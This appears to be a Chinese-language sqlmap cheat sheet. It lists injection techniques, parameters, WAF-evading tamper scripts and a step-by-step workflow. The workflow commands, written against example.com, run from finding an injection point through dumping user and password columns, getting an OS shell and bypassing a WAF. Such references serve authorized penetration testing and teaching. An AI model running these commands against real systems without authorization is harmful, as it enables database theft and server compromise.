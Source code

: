 ### 模式 (Techniques)

*   **B (Boolean-based blind):** 基于布尔的盲注。
*   **E (Error-based):** 基于报错的注入。
*   **U (Union query-based):** 基于联合查询的注入。
*   **S (Stacked queries):** 基于堆叠查询的注入（可执行多条语句）。
*   **T (Time-based blind):** 基于时间的盲注。
*   **Q (Inline queries):** 内联查询注入（不常用）。
*   `--technique=BEUST` (默认尝试所有这些)

### 常用参数

*   **目标指定:**
    *   `-u URL`, `--url=URL`: 指定目标URL (GET请求)。
    *   `--data=DATA`: 指定POST请求的数据体。
    *   `-l LOGFILE`: 从Burp或WebScarab代理日志加载目标。
    *   `-r REQUESTFILE`: 从文件中加载HTTP请求。
    *   `-m BULKFILE`: 从文件中批量加载URL进行测试。
    *   `-c CONFIGFILE`: 从INI配置文件加载选项。
*   **请求参数:**
    *   `-p PARAM`: 指定要测试的参数。
    *   `--dbms=DBMS`: 强制指定后端数据库类型 (e.g., `mysql`, `mssql`, `oracle`)。
    *   `--os=OS`: 强制指定后端操作系统 (e.g., `windows`, `linux`)。
    *   `--cookie=COOKIE`: 设置Cookie。
    *   `--user-agent=AGENT`: 设置User-Agent。
    *   `--referer=REFERER`: 设置Referer。
    *   `--headers=HEADERS`: 设置额外HTTP头 (e.g., `X-Forwarded-For: 1.1.1.1\nAccept-Language: fr`)。
    *   `--proxy=PROXY`: 使用HTTP代理。
    *   `--auth-type=TYPE --auth-cred=CRED`: HTTP认证。
*   **注入控制:**
    *   `--level=LEVEL`: 测试等级 (1-5, 默认1)。越高测试越全面，参数检查越多（Cookie, User-Agent等）。
    *   `--risk=RISK`: 风险等级 (1-3, 默认1)。越高测试越具侵入性（可能修改数据）。
    *   `--string=STRING`: 用于判断True/False的页面字符串。
    *   `--not-string=STRING`: 用于判断True/False的页面不存在的字符串。
    *   `--regexp=REGEXP`: 用于判断True/False的页面正则表达式。
    *   `--prefix=PREFIX`, `--suffix=SUFFIX`: 注入Payload的前后缀。
    *   `--tamper=SCRIPT`: 使用tamper脚本绕过WAF/过滤 (e.g., `space2comment`, `randomcase`)。可多次使用。
*   **信息获取 (Enumeration):**
    *   `--current-user`: 获取当前数据库用户。
    *   `--current-db`: 获取当前数据库名。
    *   `--hostname`: 获取数据库服务器主机名。
    *   `--is-dba`: 判断当前用户是否为DBA。
    *   `--users`: 列出所有数据库用户。
    *   `--passwords`: 尝试获取用户密码哈希，并尝试破解。
    *   `--privileges`: 列出用户权限。
    *   `--roles`: 列出用户角色。
    *   `--dbs`: 列出所有数据库。
    *   `--tables -D DBNAME`: 列出指定数据库的所有表。
    *   `--columns -D DBNAME -T TABLENAME`: 列出指定库、表的列名。
    *   `--schema`: 列出所有数据库、表、列。
    *   `--dump -D DBNAME -T TABLENAME -C COL1,COL2`: Dump指定列的数据。
    *   `--dump-all`: Dump所有数据库的所有表数据。
    *   `--search -D DBNAME -T TABLENAME -C COLNAME`: 搜索包含特定模式的列。
    *   `--count`: 获取表的行数。
*   **系统访问:**
    *   `--os-shell`: 获取交互式操作系统Shell。
    *   `--os-cmd=COMMAND`: 执行单个操作系统命令。
    *   `--os-pwn`: 获取OOB Shell, Meterpreter或VNC。
    *   `--file-read=FILEPATH`: 读取服务器上的文件。
    *   `--file-write=LOCALPATH --file-dest=REMOTEPATH`: 上传文件到服务器。
*   **杂项:**
    *   `--batch`: 自动选择默认选项，无需用户交互。
    *   `--smart`: 在 `--batch` 基础上进行启发式快速判断。
    *   `--threads=NUM`: 并发线程数 (默认1)。
    *   `-v LEVEL`: 输出详细级别 (0-6, 默认1)。`3`显示payload, `4`显示HTTP请求, `5`显示HTTP响应头, `6`显示HTTP响应体。
    *   `--flush-session`: 清除当前目标的会话缓存。
    *   `--fresh-queries`: 忽略会话缓存中的查询结果。

### 一般SQLMap操作流程

1.  **找到潜在注入点** (手工或扫描器初步发现)。
2.  **确认注入点:**
    ```bash
    sqlmap -u "http://example.com/vuln.php?id=1" --batch --level=3 --risk=1
    # 或者 POST 请求
    sqlmap -u "http://example.com/login.php" --data="user=admin&pass=123" --batch -p user
    # 或者从 Burp 请求文件加载
    sqlmap -r request.txt --batch --level=3
    ```
3.  **获取基本信息:**
    ```bash
    sqlmap -r request.txt --batch --current-db --current-user --is-dba --hostname
    ```
4.  **列出数据库:**
    ```bash
    sqlmap -r request.txt --batch --dbs
    ```
5.  **列出表:**
    ```bash
    sqlmap -r request.txt --batch -D target_db --tables
    ```
6.  **列出列:**
    ```bash
    sqlmap -r request.txt --batch -D target_db -T users --columns
    ```
7.  **Dump数据:**
    ```bash
    sqlmap -r request.txt --batch -D target_db -T users -C username,password --dump
    ```
8.  **(可选) 尝试获取Shell:** (需要高权限和合适的环境)
    ```bash
    sqlmap -r request.txt --batch --os-shell
    ```
9.  **(可选) 绕过WAF:**
    ```bash
    sqlmap -r request.txt --batch --tamper=space2comment,randomcase --level=5 --risk=3
    ```

### Tamper脚本 (部分示例)

用于修改Payload以绕过过滤或WAF。

*   `apostrophemask`: 单引号替换为UTF-8编码。
*   `base64encode`: Base64编码整个Payload。
*   `between`: `>` 替换为 `BETWEEN`。
*   `chardoubleencode`: 双重URL编码。
*   `charencode`: URL编码。
*   `charunicodeencode`: Unicode编码。
*   `equaltolike`: `=` 替换为 `LIKE`。
*   `greatest`: `>` 替换为 `GREATEST`。
*   `ifnull2ifisnull`: `IFNULL(A,B)` 替换为 `IF(ISNULL(A),B,A)`。
*   `multiplespaces`: 关键字周围添加多个空格。
*   `randomcase`: 随机大小写。
*   `space2comment`: 空格替换为 `/**/`。
*   `space2dash`: 空格替换为 `--` 加随机字符和换行符。
*   `space2hash`: 空格替换为 `#` 加随机字符和换行符 (MySQL)。
*   `space2mssqlblank`: 空格替换为MSSQL其他空白字符。
*   `space2mysqlblank`: 空格替换为MySQL其他空白字符。
*   `unionalltounion`: `UNION ALL SELECT` 替换为 `UNION SELECT`。
*   `unmagicquotes`: 宽字节绕过 `magic_quotes_gpc`。
*   `versionedkeywords`: MySQL版本注释 `/*! ... */` 包裹关键字。
*   `xforwardedfor`: 添加伪造的 `X-Forwarded-For` 头。

